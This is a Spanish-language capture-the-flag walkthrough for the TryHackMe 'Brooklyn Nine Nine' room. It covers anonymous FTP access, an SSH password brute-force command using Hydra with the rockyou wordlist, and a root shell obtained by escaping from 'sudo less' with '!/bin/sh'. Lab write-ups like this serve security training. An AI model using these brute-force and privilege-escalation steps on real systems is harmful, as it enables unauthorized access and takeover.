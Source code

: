 
----
- TAG: #Elevación #Privilegios #Linux #Sudo-l 
----
Para el ejercicio de hoy vamos a estar practicando con una máquina diferente, pero con el mismo concepto del **Sudo -l**

Como siempre vamos a necesitar dos cosas

1. Máquina atacante **Kali Linux** 
	- Lanzamos un `ping` a la máquina para ver si tenemos conectividad
	- Hacemos un `nmap` para encontrar vulnerabilidades
1. Máquina victima de **Try Hack Me** - [Brooklyn Nine Nine](https://tryhackme.com/r/room/brooklynninenine)
	- Nos conectamos a la máquina con la vpn 
	- Empezamos a correr la máquina dentro de la plataforma

----

En nuestra máquina Kali hemos encontrado 3 puerto abiertos el 21 ftp, 22 ssh y el puerto 80 http

Si revisamos la página web se muestra una foto sencilla

Así que regresamos a la terminal y nos logeamos por el protocolo ftp con la dirección ip de la máquina ya que tiene asignado el usuario anonymous por defecto y la contraseña en blanco
Al momento de ingresar nos encontramos con un archivo llamado `note_to_jake.txt`

Y si abrimos este archivo contrendra información muy valiosa que muestra lo siguiente

```bash
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

Esto nos da una idea que el usuario es `Jake` por el cual nos podemos logear por el protocolo `ssh` pero no sabemos cual es la contraseña.

Pero como encontramos un usuario lo siguiente hacer es un ataque de fuerza bruta con **Hydra**

```bash
hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://1.2.3.4
```

Esto nos permite buscar contraseña para el usuario `Jake` para el protocolo `ssh`

Una vez encontrada la contraseña nos logeamos por el protocolo `ssh` con las crendenciales encontradas

```bash
ssh jake@1.2.3.4
```


Una vez logeados como usuarios **Jake** vamos a escalar privilegios en esta máquina

Asi que volvemos hacer un `sudo -l`

```bash
sudo -l
```

Y esta vez nos encontramos con el binario `/usr/bin/less` 

Así que la buscamos en la página que le hemos recomendado, buscamos por el `less` y en el apartado de `SUDO` nos muestra estas instrucciones

```bash
sudo less /etc/profile
!/bin/sh
```

Estando dentro de sudo less /etc/profile, en la configuración hay que escribir o pegar el `!/bin/sh` aplastamos enter y con eso ya estaríamos dentro gente

Recuerden buscar las flags con 

```bash
find / -name user.txt 2>/dev/null
find / -name root.txt 2>/dev/null
```

